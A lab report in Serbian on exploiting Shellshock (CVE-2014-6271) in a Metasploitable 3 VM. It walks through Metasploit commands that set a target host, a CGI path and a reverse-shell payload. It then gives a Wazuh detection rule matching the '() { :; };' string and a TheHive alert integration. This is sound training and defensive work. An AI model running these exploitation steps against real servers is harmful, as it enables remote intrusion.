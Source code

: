 # Eksploatacija ranjivosti, detekcija, i Incident Response izveštaj

### Име и презиме: _тимски_
### Датум: 2.12.2024. - 3.12.2024.

---

## Преглед рањивости

### 1.1 Информације о рањивости

- ID рањивости (CVE): CVE-2014-6271
- Погођен сервис: Bash
- CVSS оцена: 9.8
- Опис рањивости: Шел функције у Bash-у се могу експортовати кроз environment променљиву. Други bash процеси могу да "импортују" ту функцију у свој шел кроз environment променљиву. Могуће је поставити вредност те променљиве тако да се код након дефиниције прве фунцкије изврши аутоматски.

### 1.2 Опис експлоита

**Извор експлоита:**

https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/multi/http/apache_mod_cgi_bash_env_exec.rb

**Метод експлоатације:**

Упућује се захтев ка Apache Httpd-у. `HTTP_USER_AGENT` се поставља на малициозну bash команду. Уз захтев се шаље случајна вредност за маркер. Ако сервер врати тај маркер, значи да је експлоит успешно извршен. Напада се CGI јер је то део Apache-а који покреће скрипте и омогућава динамичност. Када се те скрипте позову, у шел се прикупе environment варијабле, и због рањивости ће се извршити код. У овом случају, добијамо reverse shell.

---

## Процес експлоатације

### 2.1 Подешавање експлоита

**Рањив циљ:**

- Metasploitable 3 Ubuntu
- Bash 4.3 или мање
- Apache 2.4.7 који ради на порту 80.

**Алати за експлоатацију:**

Metasploit Framework

### 2.2 Кораци експлоатације

1. Прво се покреће Metasploit Framework: `msfconsole.bat`.
2. Тражимо експлоит за Шелшок: `search CVE-2014-6271`.
3. Од понуђених, бирамо ону са индексом 1 јер она злоупотребљава Apache: `use 1`.
4. Морамо подесити адресу рањиве машине: `set RHOST 192.168.19.109`.
5. Морамо подесити порт рањиве машине: `set RPORT 80`.
6. Морамо подесити локацију ресурса који се напада (URI): `set TARGETURI /cgi-bin/hello.sh`. 
7. Морамо одабрати payload. То су подаци које ће metasploit слати када буде извршавао експлоит. `show payloads`.
8. Ми желимо да добијемо reverse shell. `set payload 33`.
9. Покрећемо експлоит `run`. 


### 2.3 Резултат експлоатације

![img](metasploit1.png)

![img](metasploit2.png)

![img](metasploit3.png)

## Детекција коришћењем Wazuh SIEM-а

### 3.1 Wazuh SIEM правила

**Правила коришћена за детекцију:**

У `/var/ossec/etc/rules/local_rules.xml` је додато следеће правило:

```xml
<group name="shellshockgroup">
    <rule id="100002" level="10">
        <description>Shellshock attack</description>
        <field>.*\(\)\s*{\s*:;.*|.*bin/bash.*</field>
        <options>no_full_log</options>
        <mitre>
            <id>T1203</id>
        </mitre>
    </rule>
</group>
```

- ID je `100002` а Mitre ID je T1203
- Level је `10`
- Опис правила: Тражи се регекс за `() { :; };`. Ако је он игде пронађен, покренуће се alert за задато правило. Не желимо да цео алерт иде у лог и зато је постављено `no_full_log`.

### 3.2 Конфигурација SIEM-а

**Подешавање Wazuh агента:**

Вазух агент се подешава на основу инструкција са следећег линка:

https://documentation.wazuh.com/current/installation-guide/wazuh-agent/wazuh-agent-package-linux.html

```sh
curl -s https://packages.wazuh.com/key/GPG-KEY-WAZUH | gpg --no-default-keyring --keyring gnupg-ring:/usr/share/keyrings/wazuh.gpg --import && chmod 644 /usr/share/keyrings/wazuh.gpg

echo "deb [signed-by=/usr/share/keyrings/wazuh.gpg] https://packages.wazuh.com/4.x/apt/ stable main" | tee -a /etc/apt/sources.list.d/wazuh.list

apt-get update

apt-get install wazuh-agent
```

Потом се у конфигурационом фајлу инсталираног вазух агента `ossec.conf` поставља IP адреса сервера са којом агент комуницира.

На крају се агент покреће. На metasploitable није могуће користити systemctl јер фали systemd, већ агента покрећемо ручно:

```sh
cd /var/ossec/bin/
./wazuh-control start
```

**Прикупљање логова:**

Логови се налазе у `/var/log/apache2/access.log`. Поново у истом конфигурационом фајлу поставља путања до тих логова ако она већ није ту.

```xml
<localfile>
  <location>/var/log/apache2<FILE_PATH>/access.log</location>
  <log_format>syslog</log_format>
</localfile>
```

### 3.3 Процес детекције

Када се уради покушај напада, требало би да се у веб апликацији испише лог. 

![img](./wazuh.png)

---

## Incident Reponse са The Hive-ом

### 4.1 Подешавање интеграције

**Опис интеграције:**

Праћен је туторијал са сљедећег линка: https://wazuh.com/blog/using-wazuh-and-thehive-for-threat-protection-and-incident-response/

Креирана је пајтон скрипта под називом `custom-w2thive` која служи за прослијеђивање алертова из wazuh-a ка Тhe Hive-у.
 У конфигурациони фајл wazuh-a додата је секција за интеграцију са The Hive-ом:

![img](./integration.png)

**Интеграција правила:**

Правило приказано у одјељку 3.1 креира алерт у оквиру wazuh-а, након чега bash скрипта `custom-w2thive` користи податке из алерта и шаље их Тhe Hive-у.

![img](./thehive1.jpg)

### 4.2 Креирање случаја у The Hive-у

**Детаљи о случају:**

![img](./thehive2.jpg)